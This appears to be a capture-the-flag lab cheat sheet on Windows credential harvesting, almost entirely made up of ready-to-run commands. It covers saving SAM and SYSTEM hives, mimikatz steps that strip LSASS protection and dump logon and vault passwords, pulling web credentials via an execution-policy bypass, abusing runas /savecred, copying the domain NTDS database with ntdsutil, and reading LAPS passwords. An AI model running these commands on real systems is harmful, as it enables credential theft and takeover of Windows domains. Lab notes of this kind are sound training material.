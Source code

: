 ## The other way
`reg save HKLM\sam C:\users\Administrator\Desktop\sam`
`reg save HKLM\system C:\users\Administrator\Desktop\system`*Registry dump those*
`python3.9 /opt/impacket/examples/secretsdump.py -sam /tmp/sam -system /tmp/system LOCAL`

# Protected LSASS dump
`mimikatz # privilege::debug`
`mimikatz # !+`*Loading the mimidrv Driver into Memory*
`!processprotect /process:lsass.exe /remove`*Removing the LSA Protection*
`mimikatz # sekurlsa::logonpasswords`*Dump*

# Dumping credentials manager
`mimikatz # privilege::debug`
`mimikatz # sekurlsa::credman`
`mimikatz # vault::cred /patch`

# Dump Credential Manager
## Web cred dump
https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1#
`C:\Users\Administrator>vaultcmd /list`
`C:\Users\Administrator>VaultCmd /listproperties:"Web Credentials"`
`powershell -ex bypass`
`Import-Module C:\Tools\Get-WebCredentials.ps1`
`Get-WebCredentials`

## Windows cred dump
`C:\Users\thm>cmdkey /list`*Enumerating for Stored Windows Credentials*
`runas /savecred /user:THM.red\thm-local cmd.exe`*Run CMD.exe As a User with the /savecred argument*
THM{Runa5S4veCr3ds}

# NTDS dump from the domain controller(local adm rights)
`powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"`*Dumping the content of the NTDS file*
*And then take them from the c:\temp and transfer them to your machine*
`python3.9 /opt/impacket/examples/secretsdump.py -security path/to/SECURITY -system path/to/SYSTEM -ntds path/to/ntds.dit local`


# checking LAPS( local account cred)
`dir "C:\Program Files\LAPS\CSE"`
`Find-AdmPwdExtendedRights -Identity *`*Finding Users with AdmPwdExtendedRights Attribute*
`net groups "THMGroupReader"`*Finding Users belong to THMGroupReader Group, find a way to compromise him/her*
`Get-AdmPwdPassword -ComputerName creds-harvestin` *Getting LAPS Password with the Right User*
